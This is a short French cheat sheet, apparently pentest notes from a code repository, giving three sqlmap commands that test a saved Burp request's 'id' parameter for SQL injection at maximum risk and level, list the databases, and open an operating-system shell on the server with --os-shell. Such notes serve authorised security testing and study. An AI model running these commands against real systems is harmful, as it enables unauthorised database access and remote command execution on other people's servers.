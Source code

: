 # SQLi

### SQLmap

#### Tester une injection à partir d'une requête Burp

```
sqlmap -r sqli.txt --risk 3 --level 5 -p id
```

#### Lister les bases de données

```
sqlmap -r sqli.txt --risk 3 --level 5 -p id --dbs
```

#### Obtenir un _shell_

```
sqlmap -r sqli.txt --risk 3 --level 5 -p id --os-shell
```
